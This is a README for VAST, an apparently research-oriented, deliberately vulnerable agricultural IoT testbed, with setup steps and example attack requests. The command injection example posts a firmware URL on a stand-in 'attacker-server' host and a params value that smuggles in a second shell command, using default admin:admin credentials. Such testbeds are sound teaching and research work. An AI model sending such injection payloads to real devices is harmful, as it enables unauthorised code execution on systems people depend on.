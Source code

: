 # VAST - Vulnerable Agricultural Sensor Testbed

## About VAST

VAST (Vulnerable Agricultural Sensor Testbed) is a containerized, vulnerable-by-design IoT framework specifically created for agricultural cybersecurity research, education, and testing. This platform simulates real-world agricultural IoT deployments while incorporating deliberate security vulnerabilities and sensor health anomalies.

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Docker](https://img.shields.io/badge/Docker-Ready-blue.svg)](https://www.docker.com/)

## Features

- **Multi-layered Architecture**: Simulates complete agricultural IoT stack from sensors to gateway to client
- **Deliberate Vulnerabilities**: Implements BOLA, command injection, DDoS capability, and resource exhaustion vulnerabilities
- **Sensor Health Simulation**: Models four fault types (stuck readings, drift, spikes, and dropouts)
- **Containerized Deployment**: Complete Docker-based implementation for reproducibility across environments
- **Advanced Monitoring**: Integrated Prometheus and Grafana dashboards for security and health visualization
- **Dataset Generation**: Tools for creating LLM-ready security datasets from framework interactions
- **Agricultural Context**: Realistic temperature patterns reflecting diurnal cycles and crop-specific ranges

## Getting Started

### Prerequisites

- Docker and Docker Compose
- 4GB RAM minimum (8GB recommended)
- Basic knowledge of IoT and cybersecurity concepts

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/EmilPasca/vast.git
   cd vast
   ```

2. Build and start the containers:
   ```bash
   docker-compose -f main.docker-compose.yaml up -d
   ```

3. Start the observability stack:
   ```bash
   docker-compose -f observability/docker-compose.yaml up -d
   ```


## Usage Examples

### Basic Temperature Monitoring

Access the simulated sensor data through the gateway API:

```bash
curl http://localhost:48080/data/TEMP001
```

### Vulnerability Testing

#### BOLA Vulnerability Example

```bash
curl -u admin:admin http://localhost:48080/users/premium_user/sensors
```

#### Command Injection Example

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
     http://localhost:12381/firmware/update
```

#### Sensor Fault Simulation

```bash
./docs/FaultSimulation/simulate-faults.sh --sensor localhost --port 12381 --fault drift --duration 120
```

### Dataset Generation

Generate datasets for machine learning and LLM-based analysis:

```bash
cd dataset-tools
python generate_resource_exhaustion_dataset.py --sensor temperature-sensor-01 --baseline 180 --duration 300
```

## Architecture

VAST implements a multi-layered architecture mimicking real-world agricultural IoT deployments:

```
┌─────────────────┐     ┌──────────────┐     ┌───────────────┐     ┌──────────────┐
│   Data Server   │◄────│  Sensors     │────►│  MQTT Broker  │◄────│  IoT Gateway │
└─────────────────┘     └──────────────┘     └───────────────┘     └──────────────┘
                                                                          ▲
┌─────────────────┐     ┌──────────────┐                                  │
│   Prometheus    │◄────│  Grafana     │◄─────────────────────────────────┘
└─────────────────┘     └──────────────┘
```

## Documentation

Comprehensive documentation is available in the `docs` directory:

- [Installation Guide](docs/installation.md)
- [Architecture Overview](docs/architecture.md)
- [Vulnerability Details](docs/vulnerabilities.md)
- [Educational Use Cases](docs/education.md)
- [Dataset Generation](docs/datasets.md)
- [API References](docs/api.md)

## Demonstration Screenshots and Artifacts

Explore our demonstration artifacts in the `artifacts` directory:

- [DDoS Attack Demonstration](artifacts/ddos-demo/README.md)
- [Firmware Exploitation](artifacts/firmware-exploitation/README.md)
- [Resource Exhaustion Attack](artifacts/resource-exhaustion/README.md)
- [Sensor Fault Patterns](artifacts/fault-patterns/README.md)

## Contributing

We welcome contributions to VAST! Please see our [Contributing Guidelines](CONTRIBUTING.md) for details on how to submit pull requests, report issues, or request features.

## Disclaimer

VAST contains deliberately vulnerable components designed for educational purposes. Using these vulnerabilities outside of controlled educational or research environments may be illegal. The authors are not responsible for misuse of this framework.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Citation

If you use VAST in your research, please cite our paper:

```
Pasca, E.M.; Delinschi, D.; Erdei, R.; Baraian, I.; Matei, O. A Vulnerable-by-Design IoT Sensor Framework for Cybersecurity in Smart Agriculture. Agriculture 2025, X, X. https://doi.org/10.3390/xxxxx
```

## Acknowledgments

This work was supported by a grant of the Romanian National Authority for Scientific Research and Innovation, CCCDI - UEFISCDI, project number ERANET-CHISTERA-IV-TROCI 4/2024, within PNCDI IV.

This work is also supported by the project „Collaborative Framework for Smart Agriculture” – COSA that received funding from Romania’s National Recovery and Resilience Plan PNRR-III-C9-2022-I8, under grant agreement 760070.

This research has been supported by the CLOUDUT Project, cofunded by the European Fund of Regional Development through the Competitiveness Operational Programme 2014-2020, contract no. 235/2020.
